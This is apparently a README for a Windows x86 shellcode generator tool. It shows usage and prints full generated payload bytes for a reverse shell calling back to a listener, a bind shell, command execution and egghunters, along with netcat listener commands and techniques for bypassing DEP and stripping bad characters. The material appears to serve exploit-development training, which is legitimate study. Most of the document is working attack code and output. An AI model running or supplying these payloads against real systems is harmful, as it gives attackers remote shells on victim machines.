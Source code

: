 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file
    loadcoe             Load assembly code from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```

## Examples

### Reverse Shell

```
nc -nlvp 443
```

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x15f (351)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x0e\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xf9\x1d\x7f\xc3\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x1e\x9a\x0c0\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xff\x9aH\x1a\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh2\xa6\xc3\x1a\xffU\x04VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\x98\xb1\x89\xef\xffU\x041\xc9Qj\xffh\xc2Y\xfc\xe6\xffU\x04'
```


### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' bind -p 54321
# shellcode size: 0x170 (368)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca)\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xca\xcc~E\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xb8\xe0i\xa1\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xa9\x1f\xbe\xc0\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVh\xa5L\x1a\x97\xffU\x041\xc0PVh\xd4f\xfd\xc5\xffU\x041\xc0PPVh\xda\xa4!k\xffU\x04\x89\xc6VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh<\xc6ry\xffU\x041\xc9Qj\xffh\xc6\xbaHp\xffU\x04'
```

```
nc -nv 192.168.1.121 54321
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' exec -c 'calc'
# shellcode size: 0xba (186)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate developing shellcodes that do not contain bad characters and do not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

Suppose [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used. In that case, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes and some instructions in the shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0C\x0D\x20\x23\x25\x26\x2B\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
...
# bad chars were found in the shellcode
...
[ ] ebf4         : jmp 0x58
[x] eb2b         : jmp 0x91
[ ] 5e           : pop esi
[ ] 8b36         : mov esi, dword ptr [esi]
[ ] ebb9         : jmp 0x24
[ ] 3b542428     : cmp edx, dword ptr [esp + 0x28]
[ ] 75d6         : jne 0x47
[ ] 8b5724       : mov edx, dword ptr [edi + 0x24]
[ ] 01da         : add edx, ebx
[x] 668b0c4a     : mov cx, word ptr [edx + ecx*2]
[ ] 8b571c       : mov edx, dword ptr [edi + 0x1c]
...
```


## Replace Instructions

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x0C and 0x2B can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
...
    jmp   compute_hash_again        // Next iteration

find_and_call_hop:
    jmp   find_and_call_end
    nop                             // * REMOVE 0x2B *
    nop                             // * REMOVE 0x2B *

get_next_module:
    pop   esi                       // Restore InInitOrder
    mov   esi, [esi]                // ESI = InInitOrder[X].flink (next)
    jmp   next_module

find_function_compare:
    cmp   edx, [esp+0x28]           // Compare the computed hash with the requested hash
    jnz   find_function_loop        // If it doesn't match go back to find_function_loop
    mov   edx, [edi+0x24]           // AddressOfNameOrdinals RVA
    add   edx, ebx                  // AddressOfNameOrdinals VMA
    //; mov   cx,  [edx+2*ecx]          // Extrapolate the function's ordinal
    mov   ax,  [edx+2*ecx]          // * REMOVE 0x0C *
    mov   cx, ax                    // * REMOVE 0x0C *
    mov   edx, [edi+0x1C]           // AddressOfFunctions RVA
...
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

## Check for bad characters in assembly code from file
```
python3 win_x86_shellcoder.py -b '\x00' loadcode -f code.txt
```

# Other Helper scripts
`hash.py` to get the hash of a function when resolving the funciton from the library. \
```
python3 hash.py
[OpenProcessToken]
 push 0x591ea70f
[GetDefaultUserProfileDirectoryA]
 push 0x4c040d3d
[WinExec]
 push 0xe8afe98
```

`push_string,py` to get assembly code to push strings that are null-free and bad chars free. \
```
python3 push_string.py

length of Userenv.dll: 11

Output1:
xor eax eax
mov al, 0x6c
push eax
mov ax, 0x6c64
push ax
push 0x2e766e65
push 0x72657355

Output2 w/o bad chars:
mov   eax, 0xff93939c
neg   eax
push  eax
push  0x2e766e65
push  0x72657355
```